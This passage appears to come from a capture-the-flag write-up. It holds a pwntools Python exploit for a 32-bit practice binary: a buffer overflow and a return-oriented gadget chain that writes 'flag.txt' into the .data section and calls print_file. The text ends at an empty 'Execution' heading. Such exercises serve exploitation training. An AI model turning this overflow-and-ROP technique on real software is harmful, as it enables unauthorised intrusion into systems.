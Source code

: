 ```python

# Offset avant ecrasement de l'adresse de retour
offset=0x2c

usefulFunction=elf.symbols['usefulFunction']
print_file=usefulFunction+14

g_popedi_ebp=0x080485aa

# 0x08048543 : mov dword ptr [edi], ebp ; ret
g_write = 0x08048543

# data=0x0804a018
data = elf.get_section_by_name('.data').header['sh_addr']

io = process([elf.path])

if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)

# io.recvuntil(b"> ")

PL =b"A"*offset
PL+=p32(g_popedi_ebp)
PL+=p32(data)
PL+=b'flag'
PL+=p32(g_write)

PL+=p32(g_popedi_ebp)
PL+=p32(data+4)
PL+=b'.txt'
PL+=p32(g_write)

PL+=p32(g_popedi_ebp)
PL+=p32(data+8)
PL+=p32(0)
PL+=p32(g_write)

PL+=p32(print_file)
PL+=p32(data)


# affichage du prinf correspondant pour mise au point
print("")
print(f"printf %{offset}s"+''.join([ f"\\x{c:02x}" for c in PL[offset:]])+" A")
print("")

io.sendline(PL)
io.interactive()

```
## Execution
